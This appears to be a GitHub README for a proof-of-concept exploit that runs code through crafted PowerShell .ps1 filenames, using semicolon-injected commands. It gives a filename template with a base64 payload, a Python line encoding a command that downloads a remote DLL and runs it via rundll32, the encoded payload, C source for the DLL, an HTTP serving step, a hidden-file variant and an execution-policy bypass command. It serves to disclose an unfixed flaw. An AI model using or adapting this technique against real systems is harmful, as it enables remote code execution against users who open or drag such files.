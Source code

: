 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted off and improved: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or hidden text-file
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

OR just call commands straight away <br>  

"Testing;saps (gc -) PoC.ps1"

Vectors: double click, drag and drop to PS shortcut
Requirements: user must have the following setting to call a secondary script
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Based Code Execution Example: <br>  

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.



Video PoC:

